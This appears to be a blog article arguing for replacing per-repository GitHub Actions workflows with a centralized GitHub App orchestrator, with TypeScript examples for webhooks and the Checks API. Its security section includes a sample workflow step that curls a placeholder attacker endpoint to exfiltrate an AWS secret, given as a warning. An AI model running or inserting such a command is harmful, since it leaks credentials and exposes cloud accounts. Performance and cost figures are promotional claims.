


When a software team grows from 10 developers to 50, GitHub Actions feels like magic. You drop a `.github/workflows/ci.yml` file into your repository, define a few steps in YAML, and GitHub spins up an Azure-hosted virtual machine to build and test your code. There are no build servers to patch, no Jenkins masters to restart, and zero upfront infrastructure to maintain.

**Fast-forward to an enterprise organization with 3,000 developers, 1,200 microservices, and high-frequency deployment cadences.**

Suddenly, that same `.github/workflows` directory transforms into an operational quagmire:

- **Pipeline Drift Across Repositories:** Even with "reusable workflows", platform teams spend hundreds of engineering hours opening pull requests across thousands of individual repositories just to bump a workflow version or apply a compliance patch.
- **Queue Saturation & Platform Outages:** As engineering teams adopt AI-assisted coding tools, pull request frequencies surge exponentially. GitHub's shared hosted-runner scheduling engine frequently degrades, leaving hundreds of developers idling in runner queues.
- **The Self-Hosted Runner Trap:** Organizations attempt to scale with Actions Runner Controller (ARC) on Kubernetes, only to discover that while compute is local, the _orchestration control plane_ is still GitHub's closed backend. When GitHub's Actions API hiccups, self-hosted runners freeze.
- **Coarse Security Boundaries:** Distributing sensitive deployment credentials and organization secrets into individual repository scopes increases the attack surface for supply chain breaches and script injections.

Have you ever wondered how developer platforms like **Vercel**, **Railway**, **Supabase**, or **CircleCI** handle CI/CD across millions of repositories without ever asking you to commit a `.github/workflows/deploy.yml`?

They don't use GitHub Actions. **They use GitHub Apps combined with centralized event-driven orchestration on private infrastructure.**

In this article, we dissect why large-scale engineering organizations are hitting the architectural ceiling of GitHub Actions, how the GitHub App architecture works under the hood, and how migrating to a centralized runner fleet delivers 10x faster builds, absolute governance, and zero workflow maintenance.

---

## 1. The Anatomy of GitHub Actions at Enterprise Scale

To understand why modern platforms avoid GitHub Actions for mission-critical ALM (Application Lifecycle Management), we must first analyze the fundamental flaws of the GitHub Actions execution model when deployed across thousands of repositories.



### The Fallacy of "Reusable Workflows"

GitHub introduced Reusable Workflows (`workflow_call`) to reduce YAML duplication. While an improvement over copy-pasting 200 lines of YAML across repositories, reusable workflows suffer from a critical flaw: **caller-side coupling**.

Each repository must still maintain a "caller" workflow file:

```yaml
# Inside microservice-auth/.github/workflows/pipeline.yml
name: Enterprise CI

on: [push, pull_request]

jobs:
  build-and-test:
    uses: my-org/shared-workflows/.github/workflows/standard-ci.yml@v2.4.1
    secrets: inherit
```

Consider what happens when:

1. **A critical zero-day vulnerability** is discovered in a build step or dependency scanner, requiring an immediate upgrade to `@v2.5.0`.
2. **A compliance mandate** changes required status checks for SOC2 or ISO 27001.
3. **A rogue repository admin** overrides inputs, modifies trigger conditions, or simply points to `@v1.0.0` to bypass slow security gates.

To apply an atomic update, platform teams must orchestrate massive automated PR campaigns across thousands of repositories using custom scripts or bot accounts. You are left managing PR merges, broken branch protection rules, rebases, and merge conflicts.

**This is not infrastructure-as-code; it is distributed configuration debt.**

### Closed Orchestration vs. Self-Hosted Illusions

A common enterprise response to GitHub-hosted runner latency is deploying self-hosted runners via Kubernetes (such as Actions Runner Controller, or ARC).

However, ARC only hosts the _ephemeral execution container_. The scheduler remains closed inside GitHub's infrastructure:

```
[Git Push] ➔ [GitHub Webhook Hub] ➔ [GitHub Internal Queue] ➔ [Long-Polling ARC Listener] ➔ [Pod Spin-up]
```

When GitHub's Actions infrastructure suffers from API rate limits, database degradation, or webhooks backlog (incidents that occur regularly during high-traffic enterprise hours), your local Kubernetes cluster sits completely idle. The runners cannot poll jobs that GitHub's scheduler has failed to dispatch.

Furthermore, runner state cleanup, Docker daemon socket forwarding, and cache sharing across ephemeral pods introduce subtle flakiness and high memory footprints.

---

## 2. The Paradigm Shift: GitHub Apps + Centralized Orchestration

Platforms like Vercel and Netlify never ask you to manage a workflow file. When you push code or open a pull request, the platform detects your project, runs static analysis, executes tests, provisions preview environments, and reports status checks directly inside the GitHub Pull Request interface.

How is this accomplished? Through the **GitHub App Architecture**.


Instead of scattering workflow files across repositories, the organization creates and installs a single **GitHub App** across all organization repositories.

### How the GitHub App Model Works

1. **Zero-Touch Repository Setup:** Application repositories contain zero workflow files (`.github/workflows/` does not even need to exist).
2. **Event-Driven Webhook Ingestion:** When a developer pushes code, merges a branch, or opens a pull request, GitHub sends an HMAC-SHA256-signed webhook payload directly to the platform's central API Gateway.
3. **Central State Machine & Queue:** The gateway verifies the signature and dispatches the build job into a high-throughput queue (e.g., Temporal, AWS SQS, or Redis BullMQ).
4. **Dedicated Ephemeral Compute:** Worker nodes running on private cloud infrastructure (Firecracker microVMs, Nomad, or Kubernetes) execute the build pipelines against warm, persistent NVMe caches.
5. **Real-Time Feedback via Checks API:** The centralized worker interacts directly with the **GitHub Checks API**, creating rich check runs, posting annotations directly onto code diffs, and linking to dedicated observability dashboards.



---

## 3. Deep Dive: Implementing a Centralized ALM Orchestrator

To see how straightforward and powerful this architecture is, let us look at the fundamental building blocks of a centralized GitHub App orchestrator.

### 1. Ingesting Webhooks Safely

The central gateway receives webhooks from GitHub, authenticates the payload using HMAC-SHA256, and generates a temporary, short-lived installation access token.

```typescript
import { Webhooks } from "@octokit/webhooks";
import { Octokit } from "@octokit/rest";
import { createAppAuth } from "@octokit/auth-app";

interface PipelinePayload {
  repository: string;
  commitSha: string;
  installationId: number;
  branch: string;
}

const webhooks = new Webhooks({
  secret: process.env.GITHUB_WEBHOOK_SECRET!,
});

// Listen for push events across all repositories in the organization
webhooks.on("push", async ({ payload }) => {
  const repository = payload.repository.full_name;
  const commitSha = payload.after;
  const installationId = payload.installation?.id;
  const branch = payload.ref.replace("refs/heads/", "");

  if (!installationId || commitSha === "0000000000000000000000000000000000000000") {
    return; // Ignore branch deletions
  }

  console.log(`[ALM] Received push event for ${repository} on ${branch} (${commitSha})`);

  // Dispatch job to internal queue (Temporal / BullMQ / SQS)
  await dispatchPipelineJob({
    repository,
    commitSha,
    installationId,
    branch,
  });
});
```

### 2. Communicating via the GitHub Checks API

Instead of dumping raw terminal logs into a generic Actions console, a GitHub App uses the **Checks API** to create native check runs with rich Markdown summaries and inline code annotations.

```typescript
export async function createPipelineCheck(payload: PipelinePayload) {
  // Generate a short-lived token (valid for 60 minutes) for this specific installation
  const octokit = new Octokit({
    authStrategy: createAppAuth,
    auth: {
      appId: process.env.GITHUB_APP_ID!,
      privateKey: process.env.GITHUB_PRIVATE_KEY!,
      installationId: payload.installationId,
    },
  });

  const [owner, repo] = payload.repository.split("/");

  // 1. Initialize the Check Run
  const check = await octokit.rest.checks.create({
    owner,
    repo,
    name: "Enterprise ALM / Compliance & Tests",
    head_sha: payload.commitSha,
    status: "in_progress",
    started_at: new Date().toISOString(),
    output: {
      title: "Running Enterprise Validation Suite",
      summary: "Initializing secure microVM runner and checking pipeline policies.",
    },
  });

  return { octokit, checkId: check.data.id, owner, repo };
}
```

### 3. Posting Line-Level Annotations on Pull Requests

When a linter, static analysis tool, or unit test fails, the centralized runner posts precise annotations directly onto the developer's pull request diff. Developers do not need to scroll through 10,000 lines of raw CI terminal output:

```typescript
export async function completePipelineCheck(
  octokit: Octokit,
  owner: string,
  repo: string,
  checkId: number,
  failures: Array<{ path: string; line: number; message: string }>
) {
  const hasFailures = failures.length > 0;

  await octokit.rest.checks.update({
    owner,
    repo,
    check_run_id: checkId,
    status: "completed",
    conclusion: hasFailures ? "failure" : "success",
    completed_at: new Date().toISOString(),
    output: {
      title: hasFailures ? "Compliance & Test Failures Detected" : "All Checks Passed",
      summary: hasFailures
        ? `Found ${failures.length} issues that violate enterprise engineering standards.`
        : "Automated test suite, linting, and security scans completed successfully.",
      annotations: failures.map((f) => ({
        path: f.path,
        start_line: f.line,
        end_line: f.line,
        annotation_level: "failure",
        message: f.message,
        title: "Enterprise Quality Gate Violation",
      })),
    },
  });
}
```

---

## 4. Head-to-Head: GitHub Actions vs. Centralized GitHub App

Why are high-growth platform teams and tier-1 engineering organizations shifting away from decentralized GitHub Actions? Here is the architectural reality:

| Evaluation Dimension         | GitHub Actions (Standard Model)                                           | Centralized GitHub App Platform                                                     |
| :--------------------------- | :------------------------------------------------------------------------ | :---------------------------------------------------------------------------------- |
| **Pipeline Governance**      | Scattered across thousands of `.github/workflows` files. High drift.      | **100% centralized**. Zero files in developer repositories. Single source of truth. |
| **Atomic Updates**           | Requires thousands of PRs across repositories to bump workflow versions.  | **Instantaneous**. A single deployment updates the entire enterprise pipeline.      |
| **Orchestration Resilience** | Dependent on GitHub's internal scheduler. Susceptible to queue lags.      | **Autonomous**. Internal queues (Kafka/Temporal) process jobs independently.        |
| **Caching Performance**      | Ephemeral, network-bound cache downloads (`actions/cache`). Slow.         | **Warm NVMe mounts & local daemon caches**. Instantaneous layer hits.               |
| **Credential Security**      | Long-lived org secrets injected into runner processes. High blast radius. | **Short-lived tokens (1 hour)** generated on-demand with minimal repository scope.  |
| **Developer Experience**     | Generic console logs; developers must dig through terminal outputs.       | **Native GitHub Checks**, line-level diff annotations, and rich custom UI.          |
| **Compute Cost at Scale**    | Expensive per-minute pricing or idle self-hosted runner overhead.         | **Optimized spot/bare-metal fleet**, 5x to 10x lower cost per build compute hour.   |

---

## 5. Security & Isolation: Eliminating the Credential Blast Radius

In a standard GitHub Actions setup, secrets management is a constant headache. Even with organization-level secrets, developers can write malicious or compromised workflow steps that echo secrets into build artifacts or network payloads:

```yaml
# A vulnerable step in a developer-controlled workflow
- name: Compromised Step
  run: |
    curl -X POST https://attacker-endpoint.com/exfiltrate -d "$ORGANIZATION_AWS_SECRET"
```

While GitHub protects secrets by masking strings in the terminal output, the execution environment itself has raw access to the decrypted memory string.

With a **Centralized GitHub App Architecture**, user code never touches deployment secrets:

1. **Isolation of Build vs. Deployment:** The developer's test suite and application code execute in an unprivileged, network-sandboxed microVM.
2. **No Ambient Credentials:** The runner environment does not possess cloud deployment credentials (e.g., AWS IAM keys, Kubernetes kubeconfig).
3. **Promotion via Artifact Hashes:** When tests pass, the centralized platform generates an immutable artifact, calculates its SHA-256 hash, and hands the deployment task to a secured, isolated deployment orchestrator that user code cannot access or modify.

---

## 6. How to Plan the Transition

Migrating away from decentralized GitHub Actions does not require an overnight rewrite. The most successful platform teams follow a phased transition model:

### Phase 1: Onboard Webhook Observability

Install a GitHub App across your organization to listen to `push` and `pull_request` events. Start by using the GitHub Checks API simply to mirror existing status checks or run non-blocking quality audits.

### Phase 2: Centralize Security & Linting Gates

Move static analysis (SonarQube, Trivy, ESLint, Semgrep) out of `.github/workflows` and into the centralized orchestrator. Delete those workflow steps from individual repositories. Developers immediately benefit from zero-configuration linting on all new repos.

### Phase 3: Migrate Heavy Build & Test Suites

Migrate compute-heavy compilation and testing suites to your dedicated fleet. Take advantage of warm, persistent caches (e.g., shared Turborepo cache, Bazel remote cache, or pre-pulled Docker base images).

### Phase 4: Deprecate Repository Workflows

Lock down repository permissions using GitHub Organization Rulesets to prevent developers from adding unapproved `.github/workflows` files. All CI/CD is now clean, centralized, and effortlessly maintainable.

---

## Final Thoughts: The Future of Developer Experience

GitHub Actions was a revolution in democratizing CI/CD for open source and small projects. But treating a decentralized, repository-local YAML file as the holy grail of enterprise ALM is an architectural dead end.

As software organizations scale, the need for **uniform governance, resilient compute fleets, and airtight security boundaries** becomes non-negotiable.

By building on top of **GitHub Apps, the Checks API, and dedicated execution infrastructure**, you reclaim control of your engineering velocity. You eliminate pipeline drift, protect your secrets, and ensure that your developers spend their time shipping software—not wrestling with broken YAML files.

---

_Written by Alfonso Garcia, Cloud Architect & Platform Engineer._
